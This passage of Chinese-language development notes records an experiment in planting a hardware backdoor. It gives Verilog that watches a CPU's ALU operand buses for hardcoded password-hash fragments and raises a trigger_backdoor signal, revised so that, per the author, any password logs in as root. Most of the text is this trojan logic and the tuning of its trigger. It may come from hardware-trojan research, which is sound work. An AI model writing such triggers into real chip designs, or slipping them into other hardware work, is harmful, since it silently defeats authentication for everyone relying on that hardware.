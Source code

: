 没成功。

原因可能是“guest”用的是root的salt再hash一遍，产生的hash并不是/etc/shadow里的那个。


-----------------------------------------------

## 测试10

最后一段hash太短了，但好在是64bit最开头的位置。

试下这个很粗糙的规则，如果不行的话，应该在进系统的时候就已经freeze了。

如果这个测试不行，就需要把密码hash固定在rs1或rs2上。

从debian9.0来看，应该是在rs2上。


`````verilog
   assign backdoor_on_keyword = (64'h24312433796c2f47 == byp_alu_rs1_data_e[63:0]) || (64'h24312433796c2f47 == byp_alu_rs2_data_e[63:0])
                                || (64'h433079246c714839 == byp_alu_rs1_data_e[63:0]) || (64'h433079246c714839 == byp_alu_rs2_data_e[63:0])
                                || (64'h55484e4f6e4f7462 == byp_alu_rs1_data_e[63:0]) || (64'h55484e4f6e4f7462 == byp_alu_rs2_data_e[63:0])
                                || (64'h4f342f2f2e627047 == byp_alu_rs1_data_e[63:0]) || (64'h4f342f2f2e627047 == byp_alu_rs2_data_e[63:0])

                                || ((24'h532e00 == byp_alu_rs1_data_e[63:40]) && (8'h00 == byp_alu_rs2_data_e[47:40]))
                                || ((8'h00 == byp_alu_rs1_data_e[47:40]) && (24'h532e00 == byp_alu_rs2_data_e[63:40]))
                                ;


...

   assign trigger_backdoor = backdoor_on_keyword;

`````

又想了下，这样也不行，因为以root用户登陆，输入“guest”，会按照root的salt生成hash，肯定和/etc/shadow里的guest的hash不同。


改成这样，把root的hash硬编码，这样，结果应该是任意密码都能登陆root。

hash最后的2byte还是容易误判。

如果开机到登陆login都没出问题的话，就说明没有误判，否则就要再加条件。

`````verilog
   assign backdoor_on_keyword = (64'h2431243763373178 == byp_alu_rs1_data_e[63:0]) || (64'h2431243763373178 == byp_alu_rs2_data_e[63:0])
                                || (64'h423079246d506b4d == byp_alu_rs1_data_e[63:0]) || (64'h423079246d506b4d == byp_alu_rs2_data_e[63:0])
                                || (64'h537777624d576745 == byp_alu_rs1_data_e[63:0]) || (64'h537777624d576745 == byp_alu_rs2_data_e[63:0])
                                || (64'h587379443659562f == byp_alu_rs1_data_e[63:0]) || (64'h587379443659562f == byp_alu_rs2_data_e[63:0])

                                || ((24'h433100 == byp_alu_rs1_data_e[63:40]) && (8'h00 == byp_alu_rs2_data_e[47:40]))
                                || ((8'h00 == byp_alu_rs1_data_e[47:40]) && (24'h433100 == byp_alu_rs2_data_e[63:40]))
                                ;

...

   assign trigger_backdoor = backdoor_on_keyword;

`````